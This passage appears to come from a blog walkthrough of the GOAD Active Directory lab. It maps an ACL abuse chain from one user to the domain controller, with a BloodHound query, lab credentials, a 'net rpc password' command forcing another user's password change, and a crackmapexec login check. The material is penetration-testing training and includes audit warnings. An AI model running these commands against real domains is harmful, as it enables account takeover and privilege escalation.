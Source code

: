 
- The new ACL overview in the lab is this one :

```
MATCH p=(u)-[r1]->(n) WHERE r1.isacl=true and not tolower(u.name) contains 'vagrant' and u.admincount=false and not tolower(u.name) contains 'key' RETURN p
```

![acl_overview_new.png](/assets/blog/GOAD/acl_overview_new.png)


## sevenkingdoms.local ACL

To start we will focus on the sevenkingdoms killchain of ACL by starting with tywin.lannister (password: powerkingftw135)

- The path here is :
  - Tywin -> Jaime : Change password user
  - Jaime -> Joffrey : Generic Write user
  - Joffrey -> Tyron : WriteDacl on user
  - Tyron -> small council : add member on group
  - Small council -> dragon stone : write owner group to group
  - dragonstone -> kingsguard : write owner to group
  - kingsguard -> stannis : Generic all on User
  - stannis -> kingslanding : Generic all on Computer

![acl_sevenkingdoms.png](/assets/blog/GOAD/acl_sevenkingdoms.png)

- Let's try to do all the path from tywin to kingslanding domain controler :)

> Reminder : Abusing ACL make change on the targets. Be sure to you know what you are doing if you try to exploit it during an audit.
{: .prompt-warning }

## ForceChangePassword on User (Tywin -> Jaime)

- This one should never be done in a pentest (unless the customer is ok with that). You don't want to block a user during your audit. 

- As tywin.lannister we will change jaime.lannister password

![acl_tywin_pss_jaime.png](/assets/blog/GOAD/acl_tywin_pss_jaime.png)

```bash
net rpc password jaime.lannister -U sevenkingdoms.local/tywin.lannister%powerkingftw135 -S kingslanding.sevenkingdoms.local
```

- We set the new jaime password.
- And verify the password is ok.

```bash
cme smb 192.168.56.10 -u jaime.lannister -d sevenkingdoms.local -p pasdebraspasdechocolat
```

![acl_change_password.png](/assets/blog/GOAD/acl_change_password.png)
